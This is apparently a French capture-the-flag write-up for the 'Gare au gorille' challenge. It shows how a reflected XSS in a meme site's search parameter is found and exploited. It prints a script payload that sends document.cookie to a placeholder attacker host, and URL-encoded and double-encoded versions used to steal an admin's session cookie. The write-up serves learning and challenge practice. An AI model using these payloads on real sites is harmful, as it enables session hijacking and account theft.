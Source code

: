 # Gare au gorille

## Enoncé
J'ai construit un site sans prétention pour stocker ma collection de memes !

## Découverte
En naviguant sur le site, on trouve plusieurs choses : 
- l'url /flag correspondant au bouton "Ajouter un meme" qui n'est accesible que par l'admin
- une fonction de recherche par le paramètre /?search=
- une fonction de signaler certaines images à l'admin

## Réflexion
La construction de site présente laisse penser qu'on doit s'attendre à une XSS et éventuellement un vol de cookie. On teste donc le champ /?search= avec un payload POC :
`https://gare-au-gorille.france-cybersecurity-challenge.fr/?search=<script>alert("XSS")</script>`
Et bingo, on obtient bien un pop-up JavaScript qui confirme notre hypothèse.

## Exploitation
On imagine donc qu'on doit voler le cookie de l'admin en lui envoyant un payload via la fonction de signalement d'image.
### Fabrication du payload
Après quelque recherches, on trouve facilement ce payload :

`<script>var i=new Image;i.src="http://[ATTACKINGIP]"+document.cookie;</script>`

On test donc le payload sur notre propre session avec le champ de recherche : 

`https://gare-au-gorille.france-cybersecurity-challenge.fr/?search=<script>var i=new Image; i.src="http://[ATTACKINGIP]"+document.cookie;</script>`

Problème : les caractères `;` et `+` ne sont pas bien interprétés.

### Résolution de l'encodage

On modifie le payload avec l'URLencoding :

`https%3A%2F%2Fgare-au-gorille.france-cybersecurity-challenge.fr%2F%3Fsearch%3D%3Cscript%3Evar%20i%3Dnew%20Image%3B%20i.src%3D%22http%3A%2F%2F%5BATTACKINGIP%5D%22%2Bdocument.cookie%3B%3C%2Fscript%3E`

L'exploit fonctionne bien sur notre session.

### Envoi du payload

Après plusieurs tentatives, le payload n'est pas exécuté côté admin. On suppose donc que l'URLencode est décodé avant d'être présenté à l'admin. L'essai suivant tombe sous le sens, DOUBLE URLencoding :

`https%253A%252F%252Fgare-au-gorille.france-cybersecurity-challenge.fr%252F%253Fsearch%253D%253Cscript%253Evar%2520i%253Dnew%2520Image%253B%2520i.src%253D%2522http%253A%252F%252F%255BATTACKINGIP%255D%2522%252Bdocument.cookie%253B%253C%252Fscript%253E`

Parfait, le cookie admin nous est renvoyé sur le serveur attaquant, plus qu'à modifier notre cookie de session et se diriger dans /flag pour résoudre le challenge.
